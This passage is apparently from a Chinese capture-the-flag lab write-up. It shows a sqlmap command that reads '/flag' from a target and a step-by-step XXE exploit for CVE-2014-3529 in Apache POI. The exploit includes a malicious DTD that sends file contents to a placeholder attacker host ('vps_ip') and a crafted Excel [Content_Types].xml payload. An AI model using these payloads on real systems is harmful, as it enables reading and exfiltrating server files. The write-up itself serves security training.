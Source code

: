 sqlmap

```
sqlmap -r 1.txt  --file-read "/flag" --batch
```

![image-20230712151527525](%E9%9D%B6%E5%9C%BA.assets/image-20230712151527525.png)

## CVE-2014-3529 Apache POI < 3.10.1 XXE

*靶标介绍：*

Apache POI 3.10.1 之前的 OPC SAX 设置允许远程攻击者通过 OpenXML 文件读取任意文件，该文件包含与 XML 外部实体 (XXE) 问题相关的 XML 外部实体声明和实体引用。

一：使用python开启一个web服务

python -m http.server 80

二：在web服务器目录下放一个xxe.dtd

```
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://vps_ip/%file;'>">
%all;
```


三： 制作包含payload的Excel

[Content_Types].xml

```
<!DOCTYPE ANY [ <!ENTITY % file SYSTEM "file:///flag"> 
<!ENTITY % dtd SYSTEM "http://127.0.0.1/xxe.dtd">
%dtd; %send;]>
```


